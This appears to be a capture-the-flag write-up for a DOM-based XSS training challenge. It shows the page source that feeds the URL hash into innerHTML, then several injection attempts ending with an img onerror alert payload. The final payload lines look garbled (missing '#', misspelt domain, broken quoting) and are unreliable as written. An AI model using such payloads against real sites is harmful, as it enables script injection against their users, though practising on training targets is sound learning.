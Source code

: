 ```
<script src="hook.js"></script>
<script>
    window.addEventListener("load", function() {
        var q = location.hash.substring(1);
        window.query.innerHTML = q == '' ? `Hello!` : (`Hello, ${decodeURI(q)}`);
    });
</script>

<p id="query"></p>

<h1>inject</h1>
<p>Inspect the source code carefully and find where to inject :-)</p>

<h1>src</h1>
<?php highlight_string(file_get_contents(basename(__FILE__))); ?>
```
This is a DOM based XSS exploit. There are no obvious input fields on the page. First thing I tried was injecting into the URL like so ```https://xss.challenge.training.hacq.me/challenges/baby02.php=<script>javascript:alert('XSS');</script>```, but this only brought me to a 404 error. Next I tried ```https://xss.challenge.training.hacq.me/challenges/baby02.php?query=<script>javascript:alert('XSS');</script>```. This didn't bring me to a 404 page, but it didn't win me the level either.

Then I had a breakthrough. I tried ```https://xss.challenge.training.hacq.me/challenges/baby02.php#query=<script>javascript:alert('XSS');</script>```, which changed the 'Hello!' at the top of the page to ```'Hello, query=`' ```; however, it seems to filter out <script>.

I did some research on innerHTML XSS exploits, and decided that exploiting ```<img>``` tags and the onerror variable would be the way to go. Injected ```https://xss.challenge.training.hacq.me/challenges/baby02.php<img src=a onerror='alert('XSS');'>```, which didn't take (I've no idea why); however, ```https://xss.challenge.training.hacq.me/challenges/baby02.php<img src=a onerror='alert('doocument.domain');'>``` won.
